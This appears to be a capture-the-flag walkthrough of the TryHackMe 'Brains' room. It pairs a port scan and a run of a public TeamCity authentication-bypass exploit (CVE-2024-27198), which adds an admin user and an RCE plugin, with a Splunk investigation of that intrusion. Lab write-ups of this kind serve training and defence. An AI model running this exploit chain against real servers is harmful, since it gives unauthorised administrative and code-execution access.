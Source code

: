 # 🧠 Brains

* Solving [Brains](https://tryhackme.com/room/brains)

## 🔎 Discovery

1. First of all, Lets Find Open Ports and see what is going on Here!? 🎯
```sh
nmap -p- -sV $TARGET

Nmap scan report for 10.10.186.71
Host is up (0.0059s latency).
Not shown: 65529 closed ports
PORT      STATE SERVICE         VERSION
22/tcp    open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http            Apache httpd 2.4.41 ((Ubuntu))
8000/tcp  open  http            Splunkd httpd
8089/tcp  open  ssl/http        Splunkd httpd (free license; remote login disabled)
8191/tcp  open  limnerpressure?
50000/tcp open  ibm-db2?
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port8191-TCP:V=7.80%I=7%D=10/23%Time=68FA167F%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,A9,"HTTP/1\.0\x20200\x20OK\r\nConnection:\x20close\r\nContent
...
MAC Address: 02:8C:23:28:1A:5D (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

2. Lets look deeper into Ports One By One 🧩
```
22/tcp         OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp         Apache httpd 2.4.41 ((Ubuntu))
8000/tcp       Splunkd Version: 9.2.2 (Build d76edf6f0a15)
8089/tcp       Splunkd httpd (free license; remote login disabled)
8191/tcp       MongoDB (native driver port)
50000/tcp      Login To TeamCity Version 2023.11.3 (build 147512)
```

3. If we cleverly look at list above, There is only one reason to have TeamCity in it! TeamCity is there for Exploitation! 😈

![TeamCIty](images/03-teamcity.png)

## Breaking In 🔨

4. I did research for TeamCity exploits and As I guessed, There is a Good Authentication Bypass Exploit out there:
[CVE-2024-27198-RCE](https://github.com/W01fh4cker/CVE-2024-27198-RCE/tree/main) 🧨

5. Now, We Just need to Download and Run the Exploit: 💻
```sh
# Clone Git Repo
git clone https://github.com/W01fh4cker/CVE-2024-27198-RCE
# CD to Directory
cd CVE-2024-27198-RCE

# Install Dependencies
pip3 install requests urllib3 faker

# Lets Run Username: r00t & Password: r00t
python3 CVE-2024-27198-RCE.py -u r00t -p r00t -t "http://$TARGET:50000"

# Press `y` in the proccess!
```

![Run Exploit](images/05-exploit.png)

6. Running Exploit above creates a new **Administrative** User on Target Which we can login, And Uploads an **Evil Plugin** which gives a nice **RCE** on System. 🥳
```
Username: r00t
Password: r00t
```

![Evil Plugin](images/06-evil-plugin.png)

7. Now We Can Read the Flag 1 ⛳️!
```sh
cat /home/ubuntu/flag.txt
# THM{faa******************7594}
```

## 🕵️ Investigation

8. Turn off machine and Start the Machine on the Investigation chapter, wait around 5-6 mins for **Splunk** to boot up. 🍳

9. Visit splunk on port **8000** with credentials included in the task itself: `http://$TARGET:8000` 🗝️
```
U: splunk
P: analyst123
```

![Splunk](images/09-splunk.png)

10. Move to **Search and Reporting Application** and start wondering around. 🔍

![Splunk Search](images/10-search-app.png)

11. Set time window to **All Time** and search for `"new user"`: 🧟
```
What is the name of the backdoor user which was created on the server after exploitation?
e******r
```

![new user](images/11-search-user.png)

12. In the **Time Frame** of incident and couple of days later, search for `"installed"` keyword to find the package. 📦
```
What is the name of the malicious-looking package installed on the server?
d***********r
```

![package](images/12-pack.png)

13. In the same time frame, search for `"plugin"` to get list of installed Plugins on **TeamCity**. 📦
```
What is the name of the plugin installed on the server after successful exploitation?
A*******.***p
```

![plugin](images/13-plugin.png)

## 📚 References

- https://www.vicarius.io/vsociety/posts/teamcity-auth-bypass-to-rce-cve-2024-27198-and-cve-2024-27199
